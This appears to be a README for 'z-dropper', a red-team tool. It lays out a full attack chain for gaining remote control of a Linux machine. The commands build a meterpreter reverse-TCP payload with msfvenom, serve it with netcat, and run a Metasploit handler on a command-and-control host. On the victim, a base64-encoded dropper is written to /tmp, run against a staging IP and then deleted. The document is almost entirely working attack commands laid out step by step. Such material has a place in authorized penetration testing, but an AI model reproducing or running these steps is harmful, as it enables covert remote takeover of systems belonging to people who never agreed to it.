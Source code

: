 # z-dropper

## GEN1

Staging machine (ephemeral):

```
staging$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<C2_IP> LPORT=443 --platform linux -f elf -a x64 -o beacon-mettle
staging$ nc -nlvp 443 < beacon-mettle
```

Command and control machine:

```
c2$ cat > mettle-handler.rc <<'EOF'
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <C2_IP>  
set LPORT 443 
set ExitOnSession false
exploit -j -z
EOF

c2$ msfconsole -r mettle-handler.rc
```

Attacker machine:

```
redteam$ git clone https://github.com/mzet-/z-dropper; cd z-dropper
redteam$ EXE=z-dropper-gen1; zig cc -static -Os -target x86_64-linux-musl ${EXE}.c -o $EXE; strip -x -R -s -g $EXE; echo; cat "$EXE" | base64 -w 0; echo; echo
```

Victim machine:

```
victim$ echo -n "$BASE64_ENCODED_BIN" | base64 -d >/tmp/s; chmod +x /tmp/s; /tmp/s <STAGING_IP> 443; rm /tmp/s
```
